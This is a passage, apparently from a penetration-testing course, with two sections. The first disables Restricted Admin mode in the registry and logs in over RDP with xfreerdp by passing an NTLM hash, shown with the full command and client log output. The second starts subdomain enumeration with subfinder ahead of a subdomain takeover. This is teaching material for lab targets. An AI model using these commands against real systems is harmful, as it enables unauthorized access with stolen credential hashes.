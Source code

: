 DisableRestrictedAdmin /d 0x0 /f
Once the registry key is added, we can use xfreerdp with the option /pth to gain RDP
access:[!bash!]# xfreerdp /v:192.168.220.152 /u:lewen
/pth:300FF5E89EF33F83A8146C10F5AB9BB9
[09:24:10:115] [1668:1669] [INFO][com.freerdp.core] -
freerdp_connect:freerdp_set_last_error_ex resetting error state
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] -
loading channelEx rdpdr
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] -
loading channelEx rdpsnd
[09:24:10:115] [1668:1669] [INFO][com.freerdp.client.common.cmdline] -
loading channelEx cliprdr
[09:24:11:427] [1668:1669] [INFO][com.freerdp.primitives] - primitives
autodetect, using optimized
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] -
freerdp_tcp_is_hostname_resolvable:freerdp_set_last_error_ex resetting
error state
[09:24:11:446] [1668:1669] [INFO][com.freerdp.core] -
freerdp_tcp_connect:freerdp_set_last_error_ex resetting error state
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - Certificate
verification failure 'self signed certificate (18)' at stack position 0
[09:24:11:464] [1668:1669] [WARN][com.freerdp.crypto] - CN = dc-
01.superstore.xyz
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] - VERSION ={
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -
ProductMajorVersion: 6
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -
ProductMinorVersion: 1
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -
ProductBuild: 7601
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -
0x000000
Reserved:
[09:24:11:464] [1668:1669] [INFO][com.winpr.sspi.NTLM] -
NTLMRevisionCurrent: 0x0F
[09:24:11:567] [1668:1669] [INFO][com.winpr.sspi.NTLM] - negotiateFlags
"0xE2898235"
<SNIP>
If it works, we'll now be logged in via RDP as the target user without knowing their cleartext
password.


Subdomain Enumeration
Before performing a subdomain takeover, we should enumerate subdomains for a target
domain using tools like Subfinder. This tool can scrape subdomains from open sources like
DNSdumpster. Other tools like Sublist3r can also be used to brute-force subdomains by
supplying a pre-generated wordlist:
[!bash!]# ./subfinder -d inlanefreight.com -v
_
__ _
_
____ _| |__ / _(_)_ _ __| |___ _ _
(_-< || | '_ \ _| | ' \/ _ / -_) '_|
/__/\_,_|_.__/_| |_|_||_\__,_\___|_| v2.4.5
projectdiscovery.io
[WRN] Use with caution. You are responsible for your actions
[WRN] Developers assume no liability and are not responsible for any
misuse or damage.
[WRN] By using subfinder, you also agree to the terms of the APIs used.
[INF] Enumerating subdomains for inlanefreight.com
[alienvault] www.inlanefreight.com
[dnsdumpster] ns1.inlanefreight.com
[dnsdumpster] ns2.inlanefreight.com
...snip...